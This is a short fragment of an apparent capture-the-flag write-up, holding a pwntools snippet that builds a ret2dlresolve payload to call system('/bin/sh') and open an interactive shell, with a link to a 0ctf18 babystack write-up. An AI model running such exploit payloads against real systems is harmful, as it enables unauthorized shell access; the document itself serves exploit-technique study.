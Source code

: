 ```python
rel_plt_offset = BSS - JMPREL

payload3 = flat({
  44:[
    PLT0,           # calling the functions for resolving
    rel_plt_offset, # .rel.plt offset
    0xdeadbeef,     # The return address after resolving
    binsh_addr,     # argument
  ]
})
io.send(payload3)
io.interactive()
```

[another detail wu](https://guyinatuxedo.github.io/18-ret2_csu_dl/0ctf18_babystack/index.html)
